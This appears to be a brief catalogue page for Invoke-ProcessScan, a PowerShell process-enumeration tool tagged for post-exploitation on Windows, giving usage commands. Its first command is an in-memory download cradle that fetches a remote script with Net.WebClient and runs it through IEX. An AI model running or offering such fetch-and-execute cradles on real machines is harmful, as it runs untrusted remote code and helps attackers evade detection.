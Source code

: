 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - enumeration-and-discovery
  - offensive-tools
  - windows
---
```

# Invoke-ProcessScan

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/vysecurity/Invoke-ProcessScan/refs/heads/master/Invoke-ProcessScan.ps1')
```

```
PS C:\> Invoke-ProcessScan
```

```
PS C:\> Invoke-ProcessScan -SecurityOnly $False
```
